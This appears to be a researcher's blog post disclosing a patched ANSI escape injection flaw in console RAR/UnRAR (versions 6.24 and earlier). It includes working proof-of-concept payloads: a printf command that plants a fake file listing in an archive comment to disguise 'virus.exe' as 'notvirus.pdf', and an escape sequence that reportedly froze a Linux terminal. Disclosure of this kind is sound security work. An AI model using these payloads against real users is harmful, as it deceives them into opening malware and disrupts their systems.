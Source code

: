 ```yaml
---
title: ANSI Escape Injection Vulnerability in WinRAR
date: 21.05.2024
---
```


On 28 February 2024, RARLAB released an update for WinRAR, patching an ANSI escape sequence injection vulnerability that I had found in the console versions of RAR and UnRAR, affecting versions 6.24 and earlier. This vulnerability, tracked as CVE-2024–33899 for Linux and Unix systems and CVE-2024–36052 for the Windows, allowed attackers to spoof screen output or cause denial of service (in Linux and Unix). This vulnerability was patched in version 7.00. It’s important to note that the GUI version of WinRAR and the UnRAR library were not impacted by this vulnerability, regardless of the version.

In this post, I will walk you through how this vulnerability works and demonstrate a proof of concept. While I will be showcasing this on a Linux system, the same can be done on a Windows or Unix system.

**Background**

If you are familiar with the Linux, Unix or Windows command line, chances are that you’ve encountered programs like [Vim](https://github.com/vim/vim) and [Neofetch](https://github.com/dylanaraps/neofetch/). These programs use ANSI escape sequences to modify the text and background color, control the cursor, and create [GUI within the terminal](https://web.archive.org/web/20240524111033/https://github.com/Textualize/textual).

![](https://i.ibb.co/gFj3DnVD/ansi-esc-test.png)

Even though ANSI escape sequences can be used to create fancy terminal programs, it can also be weaponized, as shown in [Stok Fredrik’s DEFCON talk](https://www.youtube.com/watch?v=3T2Al3jdY38).

WinRAR provides console RAR and UnRAR which can be use to create and extract RAR archives. As shown in the image below, RAR files support comments, that gets displayed when listing the contents of the archive file using `unrar l demo.rar`.

![](https://i.ibb.co/GfVsScf9/comment-demo.png)

In order to check if ANSI escape sequences are filtered out in the comment section, we can use a simple payload that will display `THIS IS GREEN` in the color green.

```
printf 'Hello \033[32mTHIS IS GREEN\033[0m\007' | rar c demo.rar
```

Upon executing `rar l demo.rar`, we are able to see that `THIS IS GREEN` is outputted in green. This shows that the comment field does not filter ANSI escape sequences in the output.

![](https://i.ibb.co/LzVCzVcf/this-is-green-poc.png)

**Exploitation**

This vulnerability can be exploited in many various ways but an exploit suited for WinRAR will be used as a demonstration.

First, we will put our `virus.exe` file inside an `rar` file:

```console
$ ls 
virus.exe
$ rar a demo.rar virus.exe
```

Next, we will add the following payload to the comment section:

```bash
printf 'Archive: demo.rar\nDetails: RAR 5\n\nAttributes      Size       Date   Time   Name\n----------- ---------  ---------- -----  ---------\n-rw-r--r--          7  2024-05-19 16:26  notvirus.pdf\n----------- ---------  ---------- -----  ---------\n                    7                    1\e[8m' | rar c demo.rar
```

This payload includes a fake listing where `virus.exe` is replaced with `notvirus.pdf`. The ANSI escape sequence `\e[8m` is used to hide all content after the comment section in the output. As a result, the actual file listing is hidden, and our fake file listing is displayed. In the screenshot below, you can see a large gap between the output and the shell prompt. This gap is due to the original file listing being outputted but rendered invisible using `\e[8m`. While experienced command line users may find this suspicious, less experienced users could easily be tricked.

![](https://i.ibb.co/dsPD3LnM/before-after.png)

As mentioned at the beginning of this post, there are two CVEs associated with this vulnerability due to its significantly higher severity on Linux and Unix systems compared to Windows. This is because on Linux and Unix systems, certain ANSI escape sequences can be used to achieve a local denial of service.

The payload below, which is taken from [Stok Fredrik’s Black Hat slides](https://web.archive.org/web/20240524111033/https://i.blackhat.com/BH-US-23/Presentations/US-23-stok-weponizing-plain-text-ansi-escape-sequences-as-a-forensic-nightmare-appendix.pdf), captures all cursor movements and outputs the coordinates to the terminal. This only works on Linux and Unix systems. When tested on a Kali Linux VM, the cursor coordinates were outputted to the terminal and the VM later ended up being frozen.

```bash
\033[?1001h\033[?1002h\033[?1003h\033[?1004h\033[?1005h\033[?1006h\033[?1007h\033[?1015h\033[?10016h\
```

Despite the limited research on ANSI escape sequences, it’s evident that attackers with a deep understanding of ANSI escape sequences can exploit them in a creative, malicious and sometimes even annoying ways.

<link rel="stylesheet" href="https://cdn.jsdelivr.net/gh/highlightjs/cdn-release@11.9.0/build/styles/default.min.css">
<script src="https://cdn.jsdelivr.net/gh/highlightjs/cdn-release@11.9.0/build/highlight.min.js"></script>
<script defer>
    window.addEventListener('load', () => {
        hljs.highlightAll();
    });
</script>
